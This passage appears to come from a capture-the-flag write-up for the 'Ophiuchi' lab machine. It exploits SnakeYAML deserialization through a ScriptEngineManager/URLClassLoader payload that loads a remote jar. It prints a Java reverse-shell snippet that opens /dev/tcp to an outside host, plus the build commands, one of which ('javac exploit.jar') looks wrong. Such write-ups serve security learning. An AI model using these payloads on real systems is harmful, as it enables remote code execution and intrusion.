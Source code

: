 > The  snake YAML has a feature which supports for a special syntax that  allows the constructor of any Java class to be called when parsing YAML data which is (!!<java class constructor>). So,  according to this, upon parsing the payload, snake YAML will invoke the ScriptEngineManager constructor and make a request to http://attacker-ip/ which we just saw above.


Snake YAML, upon parsing our exploit payload, tries to access the endpoint `/META-INF/services/javax.script.ScriptEngineFactory` and since it's not available, the server responds with a 404 error. In order to exploit this, I needed to create the following structure:

* Create two folders, one is snakeyaml and other "META-INF". 
* Inside snakeyaml put the exploit.class file 
* Inside "META-INF" create another folder named "services" 
* Inside "services" create a "javax.script.ScriptEngineFactory" file with content "snakeyaml.exploit"


Now that I had the exploit steps in order, I needed to create the file structure and the initial Java code. I made use of the following Github PoC: <https://github.com/artsploit/yaml-payload>. Additionally, for the reverse shell, I used the following example from PayloadAllTheThings:

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

After editing the source file, I compiled the project using the following commands:

```bash
javac exploit.jar
jar -cvf exploit.jar -C exploit/ .
```

Finally, I went back to the web application and extended the path to pull my newly created jar file:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.60/exploit.jar]
  ]]
]
```

After running the code, it retrieved the exploit code and I managed to obtain a reverse shell on the machine:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Ophiuchi/img3.png"  style="width: 80%" />
</p>
